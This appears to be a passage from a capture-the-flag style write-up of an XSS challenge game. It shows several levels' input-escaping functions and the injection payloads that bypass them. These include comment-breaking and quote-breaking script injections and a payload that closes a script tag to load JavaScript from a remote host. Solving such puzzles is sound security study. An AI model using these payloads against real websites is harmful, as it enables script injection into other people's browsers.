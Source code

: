 
This is one easy level where I got stuck for a long time. I used the browser console to try out so many functions that starts with "create" but it was too difficult to find out one which doesnot filter any characters. After so much of time, I looked into comments which is when I realized, this is so easy.

```
Comment#lol      ->      <!--lol-->
```
Well, lets close the comment and then inject our string.

Payload: `Comment#--><script>alert(1)</script>`

#### Level 7:

{% highlight javascript lineos %}

function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']\*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}

{% endhighlight %}

An important thing to note here is that `callback` can contain single quotes `'` which can be of big help. Also we are already in the script context so the easiest thing to do is to put the entire thing inside single quotes so that it converts to a string and then inject our payload.

Payload: `'#';alert(1)//`

#### Level 8:

{% highlight javascript lineos %}

function escape(s) {
  // Courtesy of Skandiabanken
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}

{% endhighlight %}

Well, the first thing came to my mind is to use JSFuck as it can easily bypass the uppercase filter but its length is too high. Another best way to do it is to close the existing `script` tag and reopen a new one with an `src` attribute.

Payload: `</script><script src="site.com/1.js">`

#### Level 9:

{% highlight javascript lineos %}

function escape(s) {
  // This is sort of a spoiler for the last level :-)

  if (/[\\<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}

{% endhighlight %}
